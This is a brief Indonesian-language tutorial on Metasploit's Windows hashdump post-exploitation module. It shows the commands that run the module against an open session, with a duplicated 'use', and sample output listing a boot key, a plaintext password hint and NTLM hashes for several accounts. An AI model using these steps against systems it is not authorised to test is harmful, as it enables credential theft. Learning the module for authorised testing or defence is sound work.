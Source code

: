 # hashdump

Modul `hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `hash password` dari file `SAM` (Security Account Manager) pada komputer target. 

## Cara Penggunaan di Metasploit

```
use use post/windows/gather/hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Obtaining the boot key...
[*] Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] Obtaining the user list and keys...
[*] Decrypting user keys...
[*] Dumping password hints...

admin:"10101010"

[*] Dumping password hashes...


Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
loginbang:1003:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::


[*] Post module execution completed
```
